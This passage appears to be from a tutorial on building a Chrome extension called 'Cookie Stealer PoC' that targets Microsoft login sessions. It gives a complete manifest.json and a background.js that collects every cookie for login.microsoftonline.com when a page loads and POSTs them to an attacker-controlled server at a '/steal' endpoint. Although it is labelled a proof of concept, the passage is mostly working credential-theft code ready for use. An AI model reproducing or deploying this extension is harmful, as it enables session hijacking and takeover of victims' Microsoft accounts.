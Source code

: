 This will look for whenever someone browses to https://login.microsoftonline.com and grab all cookies from that login session and display them onscreen. This can be modified in later files in this document.

## Necessary Chrome Extension Files
Let's now make our necessary chrome files. This will be for login.microsoftonline.com, but we will modify this later.

The extension will need a manifest.json file, specifically version 3. This file defines your extension’s permissions and behavior. For cookie access and tab monitoring, you’ll need:
```
{
  "name": "Cookie Stealer PoC",
  "version": "1.0",
  "manifest_version": 3,
  "permissions": [
    "cookies",
    "tabs",
    "scripting"
  ],
  "host_permissions": [
    "*://*.microsoftonline.com/*"
  ],
  "background": {
    "service_worker": "background.js"
  },
  "action": {
    "default_title": "Cookie Stealer"
  }
}

```
Key Permissions Explained
1. "cookies": Grants access to read/write browser cookies.

2. "tabs": Lets you monitor tab activity and URLs.

3. "scripting": Required to inject or execute scripts.

4. "host_permissions": Specifies which domains the extension can access cookies from.


Next we need a background.js file. This script runs in the background and listens for tab updates. When a user visits a target domain (e.g., Microsoft login), it grabs cookies and sends them to your server.

```
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === "complete" && tab.url.includes("login.microsoftonline.com")) {
    chrome.cookies.getAll({ domain: "login.microsoftonline.com" }, (cookies) => {
      fetch("http://your-droplet-ip:5000/steal", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(cookies)
      });
    });
  }
});

```
